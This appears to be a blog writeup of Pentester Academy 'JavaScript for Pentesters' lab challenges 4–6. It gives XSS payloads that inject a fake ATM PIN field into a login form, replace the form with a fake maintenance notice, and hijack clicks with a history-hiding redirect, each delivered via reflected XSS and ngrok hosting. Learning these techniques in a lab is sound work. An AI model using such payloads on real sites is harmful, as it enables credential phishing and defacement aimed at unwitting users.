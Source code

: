 ```yaml
---
title: "JavaScript for Pentesters: Part 2"
date: 2021-05-05
classes: wide
excerpt_separator: <!--more-->
categories:
  - writeups
tags:
  - oswe.prep
  - javascript
  - pentester.academy
---
```


## >> INTRO

Welcome back my friends to the ~~weirdo posting blogs~~ show that never ends - we're back with another JavaScript for Pentesters entry! As mentioned before, this isn't a replacement for the already existing Pentester Academy course; they've graciously let me do a writeup and post it for your enjoyment, so make sure to go check out their content and support them!

The theme of these challenegs seems to be something like this: being ~~annoying~~ mischevious to end users ;) I joke, but there are some useful tricks for modifying form behavior on the fly, so if that sounds interesting to you read on! (Or read on anyways, because you want to ~~give me validation for my existence~~ support me!)
<!--more-->

And as with all of my walkthroughs and tutorials - this *isn't* to be used for illegal activities. Only hack against things that you're allowed to do so - I'm not responsible for anything you decide to get yourself involved in. This is for learning, and learning *only*.

This blog post *is* part of a series, so if you missed any of the posts they're listed below.

* [JavaScript for Pentesters: Intro](/_posts/2021-04-26-javascript-for-pentesters-intro.md)
* JavaScript for Pentesters: Part 2  ** <-- YOU ARE HERE

## >> MAY THE 4TH BE WITH YOU

>Challenge URL: http://pentesteracademylab.appspot.com/lab/webapp/jfp/4

For all of the problems today, we'll follow the same methodology as before - `test in dev console -> add to JS file -> serve on ngrok`. Let's check the prompt for challenge 4.

![Challenge 4 prompt image.](/assets/images/js-for-pentesters/c4/c4-prompt.png)

This prompt is pretty straightforward - the PTA team wants us to add a new form field called "ATM PIN" to the existing form. As we learned in the last post, it's a great starting point to be able to target the element. Poking around in the source, we see that the element has the class of `form-signin`; the class is unique, effectively making it an easy ID for us. Let's target it like we've been doing:

```javascript
var chalForm = document.getElementsByClassName("form-signin")[0]
```

I'm assigning it to a variable for easier access as we work on it (you'll see why in a second). For now, let's focus on the next piece - how to add or remove things from forms. Poke around on the Googlebox thing and you'll find [this neat answer on StackOverflow](https://stackoverflow.com/a/14853880) showing how you can programmatically remove and add things. Let's change up our code.

```javascript
var chalForm = document.getElementsByClassName("form-signin")[0];
var input = document.createElement("input");
input.type = "text";
input.name = "PIN";
input.placeholder = "PIN";
chalForm.appendChild(input);
```

That's great - but if you look at that payload you'll quickly realize that it will just add our new PIN field at the _bottom_ of the page. One thing I realized while doing this, however, is that if the final product doesn't *look* like the rest of the webpage, what good is it? If we're to deliver this JS file via social engineering we best do the job with 150% effort. Let's dig a little deeper and figure out how to add the PIN field to the bottom of the current input fields so that it looks like the real deal. 

After Googling a bit I found [this article on DevTO](https://dev.to/niick007/how-to-add-unlimited-fields-in-form-using-javascript-and-store-into-database-with-php-14ni) which led to this solution:

```javascript
var chalForm = document.getElementsByClassName("form-signin")[0];
var input = document.createElement("input");
input.type = "text";
input.name = "PIN";
input.classList.add("input-block-level");
input.placeholder = "PIN";
chalForm.insertBefore(input, chalForm.childNodes[6]);
```

Note that the `classList.add` piece is from [this w3schools article](https://www.w3schools.com/howto/howto_js_add_class.asp). Now the page should look like this:

![Challenge 4 - getting the PIN field in the right place.](/assets/images/js-for-pentesters/c4/c4-pin-correct.png)

Once we have that working, we can do the same thing we've done in the other post - throw the final script into a `.js` file, host it, and have the client execute our malicious JS file. As with the first 3 challenges, there's a `?url=` parameter that is reflected in the page so use that for payload delivery with a simple reflected XSS. Once that's all set up, host with `ngrok` and fire the reflected XSS to have our page re-written:

![Challenge 4 - full exploit chain!](/assets/images/js-for-pentesters/c4/c4-full-exploit.gif)

## >> REVENGE OF THE 5TH

>Challenge URL: http://pentesteracademylab.appspot.com/lab/webapp/jfp/5

And just like that, we're onto the next challenge. The prompt from this one tells us that we're to replace the whole form with a notification showing that the site is down. This should follow roughly the same pattern as before, so let's dig in!

Right off the bat, we start with selecting our sign-in form. We've already done that once, so I won't go over it here. While checking what functions it has access to in the developer console, I ran across this:

```javascript
document.getElementsByClassName().removeChild();
```
Checking the [MDN docs for it,](https://developer.mozilla.org/en-US/docs/Web/API/Node/removeChild) we notice that all it takes as a `node` object, specifically one of its children objects. Thankfully we know of an easy way to do this _and_ handle the objects via our nifty `forEach` loops:

```javascript
var chalForm = document.getElementsByClassName("form-signin")[0];
linkArr = Array.from(chalForm.children);
linkArr.forEach(element => chalForm.removeChild(element));
```

Running this code block in the developer console produces exactly what we expect - the form immediately disappears and we're left with nothing on the screen. Annoying! >:D

![Challenge 5 - Power Rangers saying "Make it stop!"](/assets/images/js-for-pentesters/c5/c5-annoying.gif)

Now we need to add in the message that the challenge wanted. To make it look more official, we'll include a header that says "Under Maintenance" as well. Let's hijack and modify some of our previous code so that we don't have to re-write it by hand:

```javascript
// Delete everything because we're obnoxious.
var chalForm = document.getElementsByClassName("form-signin")[0];
linkArr = Array.from(chalForm.children);
linkArr.forEach(element => chalForm.removeChild(element));

// Create a new header saying under maintenance.
var newHeader = document.createElement("h2");
newHeader.innerHTML = "Under Maintenance!";
chalForm.appendChild(newHeader);

// Put the challenge text under the maintenance notif.
var paraText = document.createElement("p");
paraText.innerHTML = "Website is Down! Please visit SecurityTube.net";
chalForm.appendChild(paraText);
```

That was a bit more in terms of lines of code, but overall it's just the same thing repeated twice for the different pieces we wanted to put on the page. Now that we've done that you know what to do - put the code in a file and host that shiny new `.js` script and fire away with a relfected XSS in the `?url` parameter!

![Challenge 5 - full exploit chain!](/assets/images/js-for-pentesters/c5/c5-full-exploit.gif)

## >> LET'S GET A 6 PACK

>Challenge URL: http://pentesteracademylab.appspot.com/lab/webapp/jfp/6

Speaking of being really annoying, this challenge is all about it! It actually does house a really important skill (being able to capture keystrokes is closely related!) but redirecting on mouse clicks is really just a fun annoying prank, as long as you have permission from whoever's on the receiving end :)

Let's start by breaking this challenge down into 2 pieces - the first is that we need to capture the mouse clicks with JavaScript; the other, we need to redirect the client to a different site. To capture clicks, a quick Google search leads to [this StackOverflow post](https://stackoverflow.com/a/8054864), which gives us this code:

```javascript
document.body.addEventListener('click', fn, true);
```

In this case, `fn` is a user-defined function that happens whenever the event fires. I don't particularly want to write out an entire function separately for such a small script, however, so we'll introduce [anonymous functions](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Functions#the_function_expression_function_expression) here.

In order to fill out our function, we'll need to figure out how to redirect using JavaScript. Fortunately this is extremely easy, as shown in [this w3schools article](https://www.w3schools.com/howto/howto_js_redirect_webpage.asp). Our code to redirect will look like this:

```javascript
// Redirect to http://PentesterAcademy.com for the challenge.
window.location.replace("https://sp1icer.dev/");
```

One thing I want to discuss - why would we want to use the `replace` function rather than the `href` one? According to W3Schools, `replace` "removes the URL of the current document from the document history" rather than leaving it there. Where's the benefit to that? Putting on our attacker hat for a second, think of it this way - would you want the user be able to hit back and see your payload in the URL and possibly think something is fishy? By no means is this foolproof (there's such a thing as logs, for example) but it's one more thing we can do that will help us not be discovered as easily.

Now that we've worked out how to build the redirect portion, let's go add this into an anonymous function and update our code:

```javascript
document.body.addEventListener('click', function () { window.location.replace("https://sp1icer.dev/"); }, true);
```

And that's it! Set up the file like only you know how, host it, and fire the payload:

![Challenge 6 - full exploit chain!](/assets/images/js-for-pentesters/c6/c6-full-exploit.gif)

Huzzah! 🎉

## >> END OF THE LINE

This article was pretty fun to go over - the ability to control things with `eventListener`s is going to come in handy should you ever try to write things like a JavaScript keylogger. Who knows, maybe that can be a future post...along with about six million other ideas I have. It always seems to be time that's the issue 🤷

I hope you enjoyed this post - as always, ~~make sure to like and subscribe~~ happy hacking!

\-sp1icer